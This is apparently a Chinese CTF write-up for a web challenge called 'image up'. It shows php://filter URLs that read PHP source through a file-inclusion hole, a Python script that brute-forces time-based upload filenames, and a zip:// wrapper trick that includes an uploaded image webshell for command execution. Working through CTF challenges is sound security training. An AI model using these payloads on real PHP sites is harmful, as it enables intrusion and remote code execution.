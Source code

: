 ```yaml
---
layout: post
title: 安恒月赛 image up
categories: [web]
tags: [web]
fullview: false
comments: true
---
```




>     http://101.71.29.5:10007/index.php?page=login  
  
仔细观察这个url的话会发现，存在文件包含。  

而且并没有login.php而是login，猜测代码是  
><?php include **str**."php";  


随便账号密码就能登陆，来到了一个上传页面，只能上传图片，回头看看题目  
  
这里的思路明确了，文件包含加图片马。  

>     在这时间统一的世界里，上传图片试试吧

突然发现，并不知道图片去哪里了。  

用为协议读取源代码，  

>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=login
>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=upload   
>     
  
  




**注意，因为包含文件的时候自动拼接.php，所以这里只写login和upload**  
     
![](https://i.imgur.com/k76GdPb.png)


在upload这里我们发现代码实现的功能。  


>     分割文件名和文件后缀，然后文件名保存为MD5(当前时间+文件名)+文件后缀，上传到upload目录下边。  

这个文件名其实是可以预测的，只不过我们得稍微的爆破一下他前后左右很短的一段时间，访问他是否存在来判断时间是否正确。  

制作一个图片马，上传后立即运行脚本。    


<pre><code>import time
import hashlib
import requests
def md5(str):
    m=hashlib.md5()
    m.update(str)
    return m.hexdigest()
t=int(time.time())
for i in range(t+8*3600-20,t+8*3600+60):#时差查了八个小时
    url="http://101.71.29.5:10007/"+"uploads/"+md5("sky"+str(i))+".jpg"
    res=requests.get(url)

    if res.status_code==200:
        print(url+'')
</code></pre> 
  


直接包含这个图片，发现不行，因为读upload.php源码的时候会发现拼接了.php，相当于你包含了shell.jpg.php，这是一个不存在的文件。  

为了绕过拼接，我们可以用phar和zip为协议。    

  



![](https://i.imgur.com/GX7cfkG.png)  

本来最后必须要打你完整的木马的名字:name.php，但是php是自动拼接的，所以就之打name。  

这样就可以让绕过.php的自动拼接了。。。  

http://101.71.29.5:10043/index.php?page=zip://uploads/图片.jpg%23shell密码，然后命令执行就可以了